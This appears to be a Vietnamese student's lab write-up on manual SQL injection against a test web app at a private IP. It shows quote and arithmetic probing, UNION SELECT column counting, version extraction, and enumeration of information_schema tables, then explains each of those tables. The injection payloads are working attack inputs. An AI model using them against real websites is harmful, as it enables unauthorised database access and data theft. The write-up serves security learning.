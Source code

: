 ### Người thực hiện: Trần Ngọc Nam
### Thời gian thực hiện: 30/03/2022

# Cách làm:
- Check xem web có bị lỗi sql injection không? SQL có 2 dạng để check: dựa trên số(?id=1) hoặc dạng chuỗi(string). Nhưng dựa theo cấu trúc web nên ta chọn check theo id.
  - Đầu tiên, ta thử chèn dấu ' vào http://192.168.216.129/cat.php?id=1
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=1'

    Kết quả trả về:
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
  ```
  - Điều này chưa kết luận được web có lỗi sql injection không. Nên ta tiếp thực thử truyền phép tính vào url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=2-1
  ```
  - Kết quả trả về là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web có thể lỗi sql injection.
  - Ta thực hiện thêm 1 lần truyền phép tính vào thanh url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=3-2
  ```
  - Kết quả trả về vẫn là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web đã lỗi sql injection.

- Tiếp theo, ta check số cột của database bằng toán tử union. Ta check số lượng từ 1 và tăng dần
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1
    http://192.168.216.129/cat.php?id=1 union select 1,2
    http://192.168.216.129/cat.php?id=1 union select 1,2,3
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
  ```
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,@@version,3,4

  Kết quả trả về: 5.1.63-0+squeeze1
  ```
- Tiếp theo, ta check tên các table có trong database
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables
  ``` 
- Kết quả trả về gồm rất nhiều table như sau:
| No. | Table                                 | Description                                                                                                                                                                    |
| --- | ------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 1   | CHARACTER_SETS                        | Cung cấp thông tin về các character set(bộ ký tự) hiện có.                                                                                                                     |
| 2   | COLLATIONS                            | Cung cấp thông tin về các collation(đối chiếu) của từng character set.                                                                                                         |
| 3   | COLLATION_CHARACTER_SET_APPLICABILITY | Cho biết character set nào có thể áp dụng cho collation nào.                                                                                                                   |
| 4   | COLUMNS                               | Cung cấp thông tin về các column trong các table.                                                                                                                              |
| 5   | COLUMN_PRIVILEGES                     | Cung cấp thông tin phân quyền trên các column.                                                                                                                                 |
| 6   | COLUMN_STATISTICS                     | Cung cấp thông tin truy cập đến các thống kê biểu đồ cho các giá trị của column.                                                                                               |
| 7   | ENGINES                               | Cung cấp thông tin về các storage engine(Công cụ lưu trữ), rất hữu dụng trong việc kiểm tra xem storage engine nào đang được hỗ trợ, và storage engine mặc định là engine nào. |
| 8   | EVENTS                                | Cung cấp thông tin về các sự kiện trong Event Manager.                                                                                                                         |
| 9   | FILES                                 | Cung cấp thông tin về các file nơi dữ liệu không gian bảng của MySQL được lưu trữ. Cung cấp thông tin về các tập tin dữ liệu của InnoDB.                                       |
| 10  | KEY_COLUMN_USAGE                      | Mô tả các column là khóa (key) của table. Table này không cung cấp thông tin về các thành phần khóa mà chỉ cung cấp thông tin về column.                                       |
| 11  | KEYWORDS                              | Liệt kê các từ được xem là keyword trong MySQL.                                                                                                                                |
| 12  | OPTIMIZER_TRACE                       | Cung cấp thông tin được tạo bởi khả năng theo dõi của trình tối ưu hóa cho các câu lệnh được theo dõi. Để bật chức năng theo dõi, sử dụng biến hệ thống optimizer_trace.       |
| 13  | PARAMETERS                            | Cung cấp thông tin về các parameter cho các stored procedure và stored function, và giá trị trả về cho các stored function.                                                    |
| 14  | PARTITIONS                            | Cung cấp thông tin về các phân vùng (partition) của table. Mỗi row trong table này ứng với 1 phân vùng cụ thể hay phân vùng phụ (subpartition) của 1 table.                    |
| 15  | PLUGINS                               | Cung cấp thông tin về các plugin của server.                                                                                                                                   |
| 16  | PROCESSLIST                           | Cung cấp thông tin về thread đang chạy.                                                                                                                                        |
| 17  | PROFILING                             | Cung cấp thông tin hồ sơ của các lệnh trong MySQL. Cung cấp thông tin chỉ ra việc sử dụng tài nguyên cho các lệnh được thực thi trong suốt quá trình của session hiện tại.     |
| 18  | REFERENTIAL_CONSTRAINTS               | Cung cấp thông tin về các khóa ngoại (foreign key).                                                                                                                            |
| 19  | RESOURCE_GROUPS                       | Cung cấp truy cập đến thông tin về các nhóm tài nguyên (resource group) trong MySQL.                                                                                           |
| 20  | ROUTINES                              | Cung cấp thông tin về các stored procedure và function.                                                                                                                        |
| 21  | SCHEMATA                              | Cung cấp thông tin về các database.                                                                                                                                            |
| 22  | SCHEMA_PRIVILEGES                     | Cung cấp thông tin phân quyền của các database.                                                                                                                                |
| 23  | STATISTICS                            | Cung cấp thông tin về các chỉ mục (index) của table.                                                                                                                           |
| 24  | ST_GEOMETRY_COLUMNS                   | Cung cấp thông tin về các column lưu trữ dữ liệu không gian (spatial data).                                                                                                    |
| 25  | ST_SPATIAL_REFERENCE_SYSTEMS          | Cung cấp thông tin các hệ thống tham chiếu có sẵn cho dữ liệu không gian.                                                                                                      |
| 26  | ST_UNITS_OF_MEASURE                   | Cung cấp thông tin về các đơn vị (unit) được chấp nhận trong function ST_Distance().                                                                                           |
| 27  | TABLES                                | Cung cấp thông tin về các table trong các database hiện có trong server.                                                                                                       |
| 28  | TABLESPACES                           | Cung cấp thông tin về tablespace đang hoạt động của MySQL Cluster.                                                                                                             |
| 29  | TABLE_CONSTRAINTS                     | Mô tả những table nào có ràng buộc (constraint).                                                                                                                               |
| 30  | TABLE_PRIVILEGES                      | Cung cấp thông tin phân quyền của các table.                                                                                                                                   |
|     |
| 31  | TRIGGERS                              | Cung cấp thông tin về các trigger.                                                                                                                                             |
| 32  | USER_PRIVILEGES                       | Cung cấp thông tin phân quyền của toàn bộ MySQL.                                                                                                                               |
| 33  | VIEWS                                 | Cung cấp thông tin về các view trong các database.                                                                                                                             |
| 34  | VIEW_ROUTINE_USAGE                    | Cung cấp truy cập đến các thông tin về các stored function được sử dụng trong định nghĩa view.                                                                                 |
| 35  | VIEW_TABLE_USAGE                      | Cung cấp truy cập đến thông tin về các table và view được sử dụng trong định nghĩa view.                                                                                       |